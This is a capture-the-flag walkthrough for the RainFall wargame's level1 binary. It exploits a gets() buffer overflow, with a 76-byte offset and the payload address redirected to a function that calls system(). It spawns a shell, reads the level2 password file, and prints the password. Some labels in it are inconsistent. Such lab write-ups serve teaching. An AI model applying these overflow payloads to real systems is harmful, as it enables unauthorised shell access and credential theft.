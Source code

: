# Level1 -> 2

## Objective

The goal of Level 2 is to escalate from `level1` to `level2` by exploiting a buffer overflow vulnerability in the `level1` binary. By the end, you should be able to read the password for `level2`.

---

## Step 1: Examine the Binary

After switching to `level1`:

```bash
level0@RainFall:~$ su level1
Password:
level1@RainFall:~$ ls
level1
```

Running the binary with various input lengths shows:

```bash
level1@RainFall:~$ ./level1
aaa
level1@RainFall:~$ ./level1
aaaaaaaaaaaaaaaaaaaaaaaaaaa
level1@RainFall:~$ ./level1
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level1@RainFall:~$ ./level1
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

> Observations:
>
> * The program crashes after a long input → likely a **buffer overflow**.

---

## Step 2: Analyze in GDB

List functions:

```bash
(gdb) info functions
0x08048360  system
0x08048444  run
0x08048480  main
```

> We will attempt to overwrite the return address to jump to `system()`.

After analyzing run we can see a call to system(). Let's try to redirect our program to run.

---

## Step 3: Investigate with `ltrace`

```bash
level1@RainFall:~$ ltrace ./level1
gets(0xbffff720, 47, ...) = 0xbffff720
--- SIGSEGV (Segmentation fault) ---
```

> The program uses `gets()`, which **does not check buffer lengths**, confirming a buffer overflow vulnerability.

---

## Step 4: Determine Offset

To exploit the overflow, we need to find the exact offset to overwrite the return address.

```bash
python -c 'print "Aa0Aa1Aa2Aa3Aa..."' > /tmp/ovcycle
gdb ./level1
(gdb) r < /tmp/ovcycle
Starting program: /home/user/level1/level1 < /tmp/lv2

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

> 0x63413563 corresponds to an offset of 76 in the given pattern

---

## Step 5: Craft Exploit

First attempt (incorrect offset):

```bash
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/test
./level1 < /tmp/test
Good... Wait what?
```

> Success! The program executes, giving us a shell-like prompt.

---

## Step 6: Escalate to `level2`

Interact with the program:

```bash
cat /tmp/test - | ./level1
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
exit
```

* The password for `level2` is revealed.
* Exit:

```bash
exit
```

---

## Step 7: Summary

* **Vulnerability:** `gets()` allows a buffer overflow.
* **Offset:** 76 bytes to the return address.
* **Target:** `system()` function in `run()`.
* **Outcome:** Shell execution allows reading the `level2` password.

> With this, you can `su level2` using the retrieved password.

---

**End of Level 2 Walkthrough**
